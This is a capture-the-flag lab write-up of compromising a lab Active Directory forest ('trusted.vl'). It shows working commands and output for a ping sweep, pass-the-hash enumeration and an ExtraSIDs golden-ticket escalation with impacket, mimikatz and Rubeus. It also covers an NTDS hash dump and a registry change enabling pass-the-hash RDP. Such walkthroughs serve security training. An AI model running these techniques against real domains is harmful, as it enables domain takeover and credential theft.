





# Preface

I will check and see that the internal DC what is the IP:

```bash
rhosts => 172.16.20.0/24
msf post(multi/gather/ping_sweep) > show options 

Module options (post/multi/gather/ping_sweep):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   172.16.20.0/24   yes       IP Range to perform ping sweep against.
   SESSION  1                yes       The session to run this module on


View the full module info with the info, or info -d command.

msf post(multi/gather/ping_sweep) > run
[*] Performing ping sweep for IP range 172.16.20.0/24
[+] 	172.16.20.220 host found
[+] 	172.16.20.221 host found
[*] Post module execution completed
msf post(multi/gather/ping_sweep) > 

```

In the meantime  I will setup a Ligolo reverse tunnel so I can surf to the intenal server via that lab DC:  


# Checking the AD

Now I can see traces of foreign group members in the LAB domain:  


Now since I have a bidirectional trust I can see that there are basically no custom accounts on the parent DC:

```bash
└─# netexec smb 172.16.20.221 -d lab.trusted.vl -u cpowers -H 322db798a55f85f09b3d61b976a13c43 --users
SMB         172.16.20.221   445    TRUSTEDDC        [*] Windows Server 2022 Build 20348 x64 (name:TRUSTEDDC) (domain:trusted.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.20.221   445    TRUSTEDDC        [+] lab.trusted.vl\cpowers:322db798a55f85f09b3d61b976a13c43 
SMB         172.16.20.221   445    TRUSTEDDC        -Username-                    -Last PW Set-       -BadPW- -Description-                                          
SMB         172.16.20.221   445    TRUSTEDDC        Administrator                 2022-09-18 20:50:53 0       Built-in account for administering the computer/domain 
SMB         172.16.20.221   445    TRUSTEDDC        Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         172.16.20.221   445    TRUSTEDDC        krbtgt                        2022-09-14 09:43:50 0       Key Distribution Center Service Account 
SMB         172.16.20.221   445    TRUSTEDDC        [*] Enumerated 3 local users: TRUSTED

```

# Getting the trust

Now this attack is about the ExtraSIDs Attack and to automate this you can use raise child from impacketer suite which will do all the job for you, but for some fucking reason it keeps failing?

```bash
└─# impacket-raiseChild lab.trusted.vl/cpowers:'TotallySafeAdminPassword666.'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Raising child domain lab.trusted.vl
[*] Forest FQDN is: trusted.vl
[*] Raising lab.trusted.vl to trusted.vl
[*] trusted.vl Enterprise Admin SID is: S-1-5-21-3576695518-347000760-3731839591-519
[*] Getting credentials for lab.trusted.vl
lab.trusted.vl/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c7a03c565c68c6fac5f8913fab576ebd:::
lab.trusted.vl/krbtgt:aes256-cts-hmac-sha1-96s:c930ddb15c3f84aafa01e816abc1112e38430b574ae3fcdd019e77bc906494aa
[-] Kerberos SessionError: KDC_ERR_TGT_REVOKED(TGT has been revoked)

```

But manually works for some reasons..

```bash
└─# impacket-ticketer -nthash c7a03c565c68c6fac5f8913fab576ebd -domain LAB.TRUSTED.VL -domain-sid S-1-5-21-2241985869-2159962460-1278545866 -extra-sid S-1-5-21-3576695518-347000760-3731839591-519 Administrator 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for LAB.TRUSTED.VL/Administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in Administrator.ccache

```

But it still fails for some damn reason, so I will try again this time from windows instead. I downloaded locally the ticket:

```bash
*Evil-WinRM* PS C:\temp> ./mimikatz "kerberos::golden /user:Administrator /domain:LAB.TRUSTED.VL /sid:S-1-5-21-2241985869-2159962460-1278545866 /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /sids:S-1-5-21-3576695518-347000760-3731839591-519 /ticket:gold.kirbi" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # kerberos::golden /user:Administrator /domain:LAB.TRUSTED.VL /sid:S-1-5-21-2241985869-2159962460-1278545866 /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /sids:S-1-5-21-3576695518-347000760-3731839591-519 /ticket:gold.kirbi
User      : Administrator
Domain    : LAB.TRUSTED.VL (LAB)
SID       : S-1-5-21-2241985869-2159962460-1278545866
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3576695518-347000760-3731839591-519 ;
ServiceKey: c7a03c565c68c6fac5f8913fab576ebd - rc4_hmac_nt
Lifetime  : 3/15/2026 3:32:47 PM ; 3/12/2036 3:32:47 PM ; 3/12/2036 3:32:47 PM
-> Ticket : gold.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !

mimikatz(commandline) # exit
Bye!

```

And now I can convert it back to the correct format:

```bash
└─# impacket-ticketConverter gold.kirbi gold.ccache
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
                                                                                                                                                                     
                                                                                                                                                                     
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Trusted]
└─# export KRB5CCNAME=gold.ccache 
                                                                                                                                                                     
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Trusted]
└─# klist
Ticket cache: FILE:gold.ccache
Default principal: Administrator@LAB.TRUSTED.VL

Valid starting       Expires              Service principal
2026-03-15 16:32:47  2036-03-12 16:32:47  krbtgt/LAB.TRUSTED.VL@LAB.TRUSTED.VL
    renew until 2036-03-12 16:32:47

```

But after several tests seems like Rubeus did the trick instead, as you see it still has the ticket injected into the current session:

```bash
*Evil-WinRM* PS C:\temp> .\Rubeus.exe golden /rc4:c7a03c565c68c6fac5f8913fab576ebd /domain:LAB.TRUSTED.VL /sid:S-1-5-21-2241985869-2159962460-1278545866  /sids:S-1-5-21-3576695518-347000760-3731839591-519 /user:Administrator /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : LAB.TRUSTED.VL (LAB)
[*] SID            : S-1-5-21-2241985869-2159962460-1278545866
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ExtraSIDs      : S-1-5-21-3576695518-347000760-3731839591-519
[*] ServiceKey     : C7A03C565C68C6FAC5F8913FAB576EBD
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : C7A03C565C68C6FAC5F8913FAB576EBD
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : krbtgt
[*] Target         : LAB.TRUSTED.VL

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator@LAB.TRUSTED.VL'

[*] AuthTime       : 3/15/2026 3:42:12 PM
[*] StartTime      : 3/15/2026 3:42:12 PM
[*] EndTime        : 3/16/2026 1:42:12 AM
[*] RenewTill      : 3/22/2026 3:42:12 PM

[*] base64(ticket.kirbi):

      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
      dGd0Gw5MQUIuVFJVU1RFRC5WTA==


[+] Ticket successfully imported!
*Evil-WinRM* PS C:\temp> klist

Current LogonId is 0:0x16161d6

Cached Tickets: (1)

#0>	Client: Administrator @ LAB.TRUSTED.VL
    Server: krbtgt/LAB.TRUSTED.VL @ LAB.TRUSTED.VL
    KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
    Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
    Start Time: 3/15/2026 15:42:12 (local)
    End Time:   3/16/2026 1:42:12 (local)
    Renew Time: 3/22/2026 15:42:12 (local)
    Session Key Type: RSADSI RC4-HMAC(NT)
    Cache Flags: 0x1 -> PRIMARY
    Kdc Called:
*Evil-WinRM* PS C:\temp> 

```

# Back on track

Now the issue was with the LAB, another day with another full reset it worked as expected:  


And now I can dump the NTDS dit:

```bash
└─# netexec smb TRUSTEDDC.trusted.vl -u Administrator -H 15db914be1e6a896e7692f608a9d72ef --ntds 
SMB         172.16.20.221   445    TRUSTEDDC        [*] Windows Server 2022 Build 20348 x64 (name:TRUSTEDDC) (domain:trusted.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.20.221   445    TRUSTEDDC        [+] trusted.vl\Administrator:15db914be1e6a896e7692f608a9d72ef (Pwn3d!)
SMB         172.16.20.221   445    TRUSTEDDC        [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         172.16.20.221   445    TRUSTEDDC        Administrator:500:aad3b435b51404eeaad3b435b51404ee:15db914be1e6a896e7692f608a9d72ef:::
SMB         172.16.20.221   445    TRUSTEDDC        Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.20.221   445    TRUSTEDDC        krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d9436aebee2db5c6e4166d5e2472fa2d:::
SMB         172.16.20.221   445    TRUSTEDDC        TRUSTEDDC$:1000:aad3b435b51404eeaad3b435b51404ee:a513588db7c93c7e43727e764b0b7020:::
SMB         172.16.20.221   445    TRUSTEDDC        LAB$:1103:aad3b435b51404eeaad3b435b51404ee:2e28b20154d08cf826014446d288d87f:::
SMB         172.16.20.221   445    TRUSTEDDC        [+] Dumped 5 NTDS hashes to /root/.nxc/logs/ntds/TRUSTEDDC_172.16.20.221_2026-03-15_172404.ntds of which 3 were added to the database
SMB         172.16.20.221   445    TRUSTEDDC        [*] To extract only enabled accounts from the output file, run the following command: 
SMB         172.16.20.221   445    TRUSTEDDC        [*] grep -iv disabled /root/.nxc/logs/ntds/TRUSTEDDC_172.16.20.221_2026-03-15_172404.ntds | cut -d ':' -f1

```

Now even if I am admin I still can't read the file?

```bash
+---Videos
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
Access to the path 'C:\Users\Administrator\Desktop\root.txt' is denied.
At line:1 char:1
+ cat root.txt
+ ~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Users\Administrator\Desktop\root.txt:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 

```

Now seems like the EFS is blocking me from reading the file?

```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cipher /c root.txt

 Listing C:\Users\Administrator\Desktop\
 New files added to this directory will be encrypted.

E root.txt
  Compatibility Level:
    Windows Vista/Server 2008

cipher.exe : Access is denied.
    + CategoryInfo          : NotSpecified: (Access is denied.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
Access is denied.  Key information cannot be retrieved.

Access is denied.
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 

```

Here I asked gemini to provide me the REG key that allows to pass the hash during RDP:

```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> reg add HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
The operation completed successfully.


```

And opening from RDP works just fine:



Now checking from RDP it is clear that the EFS is expecting the:

```bash
PS C:\Users\Administrator\Desktop> cipher /c root.txt

 Listing C:\Users\Administrator\Desktop\
 New files added to this directory will be encrypted.

E root.txt
  Compatibility Level:
    Windows XP/Server 2003

  Users who can decrypt:
    TRUSTED\Administrator [Administrator(Administrator@TRUSTED)]
    Certificate thumbprint: FFA5 6CDD 0797 CFD7 AA58 C004 2368 67D3 1B75 1553

  Recovery Certificates:
    TRUSTED\Administrator [administrator(administrator@TRUSTED)]
    Certificate thumbprint: 1FB2 6DE1 F581 0571 F3DD 879B F1D5 B72C B481 C6DA

  Key Information:
    Algorithm: AES
    Key Length: 256
    Key Entropy: 256

PS C:\Users\Administrator\Desktop>
```

The certificate with thumbprint "**FFA5**" was most likely not loaded during WINRM.



&nbsp;